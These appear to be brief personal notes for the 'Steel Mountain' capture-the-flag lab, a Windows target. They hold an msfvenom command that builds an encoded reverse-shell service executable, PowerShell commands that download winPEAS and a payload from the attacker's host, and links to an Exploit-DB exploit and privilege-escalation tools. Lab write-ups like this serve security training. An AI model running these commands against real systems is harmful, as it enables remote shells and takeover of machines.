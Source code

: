 # Steel Mountain

```
export IP=10.10.128.20
```
PowerUp.ps1: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
msfvenom -p windows/shell_reverse_tcp LHOST=my_ip LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

## Performing exploitation without relying on Metasploit

Exploit used: https://www.exploit-db.com/exploits/39161

netcat static binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

```
powershell "Invoke-WebRequest -UseBasicParsing myip/winPEAS.bat -OutFile winPEAS.bat"
``` 
``` 
powershell "Invoke-WebRequest -UseBasicParsing 10.2.63.91/ASCService.exe -OutFile ASCService.exe"
```